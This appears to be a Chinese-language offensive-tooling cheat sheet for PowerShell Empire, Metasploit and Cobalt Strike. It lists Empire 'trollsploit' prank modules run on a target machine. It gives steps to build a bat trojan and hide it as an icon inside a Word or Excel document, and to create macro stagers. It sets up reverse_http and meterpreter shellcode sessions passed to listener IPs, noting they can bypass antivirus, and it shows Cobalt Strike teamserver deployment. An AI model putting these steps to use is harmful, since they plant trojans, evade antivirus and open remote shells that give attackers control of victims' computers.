 #### **Trollsploit（恶作剧）**

<table style="width: 768px;"><thead><tr><th>模块名</th><th>功能</th></tr></thead><tbody><tr><td>trollsploit/get_schwifty</td><td>播放Schwifty视频，同时把计算机音量设置最大</td></tr><tr><td>trollsploit/message</td><td>发送一个消息框</td></tr><tr><td>trollsploit/process_killer</td><td>终止以特定名称开头的任何进程</td></tr><tr><td>trollsploit/rick_ascii</td><td>生成一个新的powershell.exe进程运行Lee Holmes' ASCII Rick Roll</td></tr><tr><td>trollsploit/rick_astley</td><td>运行SadProcessor's beeping rickroll</td></tr><tr><td>trollsploit/thunderstruck</td><td>播放Thunderstruck视频，同时把计算机音量设置最大</td></tr><tr><td>trollsploit/voicetroll</td><td>通过目标上的合成语音朗读文本</td></tr><tr><td>trollsploit/wallpaper</td><td>将.jpg图片上传到目标机器并将其设置为桌面壁纸</td></tr><tr><td>trollsploit/wlmdr</td><td>在任务栏中显示气球提示</td></tr></tbody></table>

#### **Empire Word**

```
`>usestager windows/launcher_bat生成bat木马，设置Listener``Word/Excel->插入->对象->由文件创建，选择bat，显示为图标，修改图标``Macro``>usestager windows/macro 设置Listener``Word/Excel->试图->宏->创建，复制macro进去`
```

#### **Empire派生Cobalt Strike和MSF**

##### **派生MSF**

```
`可绕过杀软``Empire``>usemodule code_execution/invoke_shellcode``>set Lhost 192.168.0.1``>set Lport 4444``>set Payload reverse_http``MSF``>use exploit/multi/handler``>set payloadwindows/meterpreter/reverse_http``>set Lhost 192.168.31.247``>set lport 4444``>run``或Empire``>usemodule code_execution/invoke_metasploitpayload``>set URL http://SRVHOST:SRVPORT``MSF``#use exploit/multi/script/web_delivery``#set payload windows/x64/meterpreter/reverse_tcp``设置SRVHOST SRVPORT`
```

```
**派生Cobalt Strike**  

```

```
`创建监听器/windows/beacon_http/reverse_http 设置端口和主机``Empire``>usemodule code_execution/invoke_shellcode``>set Lhost 192.168.0.1``>set Lport 4444``>set Payload reverse_http`
```

```
  

```

### **Cobalt Strike**

```
`安装``需要JDK环境``>tar -xzvf jdk-8u191-linux-x64.tar.gz`
```

#### 部署TeamServer

```
`>./teamserver 192.168.0.107 123456``格式是外网IP和密码`
```

```
  

```
